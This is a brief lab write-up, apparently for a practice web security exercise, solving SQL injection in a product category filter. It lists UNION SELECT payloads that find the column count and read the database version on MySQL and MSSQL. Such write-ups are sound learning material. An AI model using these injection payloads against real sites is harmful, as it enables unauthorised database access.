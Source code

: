 # lab-querying-database-version-mysql-microsoft

## Solution 1 (MySQL)
Comment sign is "#" (%23 url-encoded).

`/filter?category=Lifestyle%27+UNION+SELECT+NULL%23`: Internal Server Error

`/filter?category=Lifestyle%27+UNION+SELECT+NULL,+NULL%23`: Ok (2 columns)

`/filter?category=Lifestyle%27+UNION+SELECT+@@version,+NULL%23`: Solved

## Solution 2 (MySQL & MSSQL)

`/filter?category=Pets%27+UNION+SELECT+@@version,+NULL--+1`: Solved
